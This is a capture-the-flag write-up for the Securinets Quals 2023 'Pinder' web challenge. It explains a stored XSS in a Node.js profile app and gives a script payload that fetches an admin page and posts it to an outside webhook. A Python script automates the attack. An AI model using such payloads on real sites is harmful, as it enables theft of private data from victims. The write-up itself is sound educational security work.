 ```yaml
---
title: "Securinets CTF Quals 2023 - webx1"
layout: single
excerpt: "📅 Time: Sunday, August 6, 2023, 01:00 ICT — Monday, August 7, 2023, 01:00 ICT (~GMT +7)
💻 Official URL: https://ctf.securinets.tn"
header:
show_date: true
classes: wide
header:
  teaser: "https://hackmd.io/_uploads/SyrwTwfRh.png"
  teaser_home_page: true
  icon: "https://hackmd.io/_uploads/By3gJwG0h.png"
categories:
  - CTF
tags:
  - CTF
  - English
---
```


<p align="center">
<img src="https://hackmd.io/_uploads/SyrwTwfRh.png">
</p>

# Pinder

## Description

![](https://hackmd.io/_uploads/rkatqgpjn.png)

Link: http://pinder.securinets.tn

Source code [here](https://github.com/TaiPhung217/CTF_writeup/blob/main/2023/Securinets%20Quals%202023/pinder.zip).


## Solution

## Review source code

The source code is quite a lot but I will focus on a few important files.

![](https://hackmd.io/_uploads/H1aIoe6o2.png)

After looking through the entire source code, I noticed that there are some functions that should be paid attention to as follows:

- In the file `./routes/index.js`:

 `login`:

![](https://hackmd.io/_uploads/HJQcaeasn.png)

`register`:

![](https://hackmd.io/_uploads/B1Fa6lash.png)

`create-profile` and `make-public`:

![](https://hackmd.io/_uploads/rJRJReaj3.png)

In this function 3 inputs are required including `userId`, `firt_name`, `last_name` and `profile_picture_link`.

`const result = db.createProfile(req.session.userId, req.body.first_name, req.body.last_name, req.body.profile_picture_link, true);`


`/my-profile`:

![](https://hackmd.io/_uploads/By7FAlajh.png)

This path allows you to view previously created profiles. in which there is a point worth noting.

`res.render("my-profile", { profile: result[0] }` function gets the profile id in the database and displays it to the interface.

Here is the result of `result`:

![](https://hackmd.io/_uploads/B1B-1-Tj2.png)

However, on the desktop interface, the profile id is hidden with `style="display:none"`.

![](https://hackmd.io/_uploads/r12Qyb6jn.png)

There are also 2 other paths but only for admin.

![](https://hackmd.io/_uploads/H1ldJWpoh.png)

admin can view profiles of other accounts through the path `/profile/{id}`.

![](https://hackmd.io/_uploads/S1-aJbToh.png)


- The flag is located in the profile of `admin`.

![](https://hackmd.io/_uploads/rkrEeZTih.png)

- I tried to create a template containing malicious javascript code and open it in `admin` account.

In my account.

![](https://hackmd.io/_uploads/BkCYZZpj3.png)

In `admin`.

![](https://hackmd.io/_uploads/rJGab-ain.png)

yeah. :100: I received a message - XSS stored vulnerability from `admin` side.


- In `./util/report.js`:
There is a requirement, the url when sumit must start with `http://127.0.0.1/profile`.

![](https://hackmd.io/_uploads/B1UdMZpo2.png)

:::success
=> At this point, I can guess that this web application contains an XSS stored vulnerability.

The mining steps I perform will be as follows:
- Create an account and login
- Create profile contains XSS code to fetch to the profile in admin and send the results to a webhook.
- Get `id` of `profile` just created in view-source
- Submit my-profile to admin with the link `http://127.0.0.1/profile/{id}`
- Get flags from webhook
:::


## Exploit XSS
- Now, I change a bit the old payload to .
```!
"><script>fetch('http://127.0.0.1/my-profile').then(response => response.text()).then(data => {fetch('	https://webhook.site/9a0f20d5-7f92-43bb-a455-5d82fd12eb17',{method: 'POST', headers: {'Content-Type': 'text/plain'},body: data});}).catch(error => console.error(error));</script>
```

- Add it to the `firtname` of the profile.

![](https://hackmd.io/_uploads/BkxpQZpon.png)

Done!

- Looking at the source code we can see that `profile id` is `485`

![](https://hackmd.io/_uploads/S1GN4Zpoh.png)


- Now submit my profile to admin with the link
`http://127.0.0.1/profile/485`

![](https://hackmd.io/_uploads/ByiDNbTj3.png)

- ok, i get the flag from webhook.

![](https://hackmd.io/_uploads/HkU84b6in.png)

Flag: `securinets{3bcc81811533d70940084c8}`


## Script

```python
import requests
import string
import random

import time

from bs4 import BeautifulSoup

url = "http://pinder.securinets.tn"

webhook = "https://webhook.site/c575a735-3aaf-4b9a-b8b9-4eeba169e356"

payload = "'><script>fetch('http://127.0.0.1/my-profile').then(response => response.text()).then(data => {fetch('#####',{method: 'POST', headers: {'Content-Type': 'text/plain'},body: data});}).catch(error => console.error(error));</script>"

with requests.Session() as session:
    username = ''.join(random.choices(string.ascii_letters + string.digits, k=3))

    session.post(url + '/register', json={ 'username': username, 'password': '12345678'})
    session.post(url + '/login', json={ 'username': username, 'password': '12345678' })
    payload = payload.replace('#####', webhook)
    session.post(url + '/create-profile', json={"first_name":payload,"last_name":payload,"profile_picture_link":payload} )
    res = session.get(url + '/my-profile')
    if res.status_code == 200:
        soup = BeautifulSoup(res.content, "html.parser")
        card_subtitle = soup.find("p", class_="card-subtitle")
    
    if card_subtitle:
        value = card_subtitle.get_text().strip("#")
        print("Id profile: ", value)
        
    session.post(url + '/report', json={"url":"http://127.0.0.1/profile/" + value})
    time.sleep(2)
    print('Done! check webhook')


```

Result:
```
┌──(taiwhis㉿kali)-[~]
└─$ python 2.py
Id profile:  517
Done! check webhook

```
Check webhook:

![](https://hackmd.io/_uploads/Syc66Zpj3.png)



